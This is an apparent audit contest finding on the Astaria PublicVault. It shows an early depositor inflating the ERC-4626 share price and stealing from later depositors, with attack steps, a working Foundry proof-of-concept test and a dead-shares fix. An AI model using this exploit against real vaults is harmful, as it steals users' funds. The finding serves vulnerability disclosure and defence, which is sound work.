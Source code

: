 joestakey

high

# `PublicVault.deposit()` can be broken by early minter

## Summary
An early minter can break the `VaultToken` price, resulting in future depositors losing `underlying` upon redeem.

## Vulnerability Detail
Liquidity providers earn interest on funds provided to `PublicVaults`. When a liquidity provider deposits capital into a `PublicVault`, they are minted yield-bearing ERC-4626 `VaultTokens`

Liquidity deposit by calling `PublicVault.deposit()`. The function calls `ERC4626Cloned.deposit()`, which computes the amount of `VaultTokens` to be minted, and transfers the liquidity to the `PublicVault`.

The issue is that because of how `convertToShares` computes the amount of shares to be minted, an early minter can inflate the share price and steal `underlying` from future depositors.

## Impact
A direct consequence from this `VaultToken` price inflation is that early minters can essentially steal `underlying` from future minters

## Code Snippet
https://github.com/sherlock-audit/2022-10-astaria/blob/main/lib/astaria-gpl/src/ERC4626-Cloned.sol#L400

## Proof of Concept
- Alice calls `deposit(1)`, depositing `1` unit of `underlying` in `PublicVault`. She receives `1` `VaultToken`.
- Alice transfers `1e18 - 1` underlying to the `PublicVault` using the `ERC20.transfer()` method.
- Bob calls `PublicVault.deposit(1.999999e18)`.
- Because of Alice's transfer, `totalSupply = 1e18`. `1 * 1.9999 e18 / 1e18` rounds to `1`: Bob receives `1` `VaultToken`: the same amount as Alice.
- Alice calls `redeemFutureEpoch` to redeem her shares at the next epoch. Because she owns half of the shares, she will receive ~`1.5 * 1e18` `underlying`, effectively stealing approximately `0.5 * 1e18` from Bob.
Run this test - you can add it to `AstariaTest.t.sol`:

```solidity
function testAttackSharesBreak() public {
    Dummy721 nft = new Dummy721();
    address tokenContract = address(nft);
    uint256 tokenId = uint256(1);

    address publicVault = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 14 days
    });

    _lendToVault(
      Lender({addr: address(1), amountToLend: 1}),
      publicVault
    );
    uint amountTransfer = 1e18 - 1;
    vm.deal(address(1), amountTransfer);
    vm.startPrank(address(1));
    WETH9.deposit{value: amountTransfer}();
    WETH9.transfer(publicVault, amountTransfer);
    vm.stopPrank();

    uint256 amountTwo = 1.999999999 * 1e18;
    // address(2) provides 1.999999999 * 1e18 of liquidity to the Vault
    _lendToVault(
      Lender({addr: address(2), amountToLend: amountTwo}),
      publicVault
    );

    // uint256 collateralId = tokenContract.computeId(tokenId);
    uint256 vaultBalanceUserOne = IERC20(publicVault).balanceOf(address(1));

    // address(1) and address(2) own the same amount of VaultTokens
    assertEq(1, IERC20(publicVault).balanceOf(address(1)));
    assertEq(1, IERC20(publicVault).balanceOf(address(2)));

    // _signalWithdrawAtFutureEpoch(address(1), publicVault, uint64(1));
    _signalWithdraw(address(1), publicVault);

    address withdrawProxy = PublicVault(publicVault).withdrawProxies(
      PublicVault(publicVault).getCurrentEpoch()
    );


    vm.warp(block.timestamp + 15 days);

    PublicVault(publicVault).processEpoch();

    vm.warp(block.timestamp + 13 days);
    PublicVault(publicVault).transferWithdrawReserve();

    vm.startPrank(address(1));

    WithdrawProxy(withdrawProxy).redeem(
      vaultBalanceUserOne,
      address(1),
      address(1)
    );
    vm.stopPrank();

    //address(1) withdrew ~1.5e18 underlying
    assertApproxEqAbs(ERC20(PublicVault(publicVault).underlying()).balanceOf(address(1)), 1.5 ether,1e17); //10% delta

    // only ~1.5e18 underlying left in Vault: address(2) effectively lost ~0.5e18
    assertApproxEqAbs(ERC20(PublicVault(publicVault).underlying()).balanceOf(publicVault), 1.5 ether,  1e17 ); //10% delta
}
```

## Tool used
Manual Review, Foundry

## Recommendation
Consider sending the first 1000 `VaultToken` to the address 0, a mitigation used in [Uniswap V2](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124).